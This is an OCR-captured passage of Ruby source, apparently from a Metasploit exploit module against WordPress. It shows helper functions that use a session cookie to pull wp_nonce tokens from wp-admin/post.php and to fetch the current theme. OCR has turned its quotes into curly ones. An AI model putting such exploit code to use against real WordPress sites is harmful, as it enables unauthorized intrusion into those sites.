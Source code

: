 ```

‘uri’       => uri,

‘cookie’ => cookie

)

if res && res.code == 200 && res.body && !res.body.empty?

res.get_hidden_inputs.first["_wpnonce"]

end

end

def get_wpnonce2(image_id, cookie)

uri = normalize_uri(datastore[‘TARGETURI’], ‘wp-admin’, ‘post.php’)

res = send_request_cgi(

‘method’    => ‘GET’,

‘uri’       => uri,

‘cookie’    => cookie,

‘vars_get’  => {

‘post’   => image_id,

‘action’ => “edit”

}

)

if res && res.code == 200 && res.body && !res.body.empty?

tmp = res.get_hidden_inputs

wpnonce2 = tmp[1].first[1]

end

end

def get_current_theme

uri = normalize_uri(datastore[‘TARGETURI’])

res = send_request_cgi!(

‘method’    => ‘GET’,

‘uri’       => uri

)

fail_with(Failure::NotFound, ‘Failed to access Wordpress page to retrieve theme.’) unless res && res.code == 200 && res.body && !res.body.empty?

```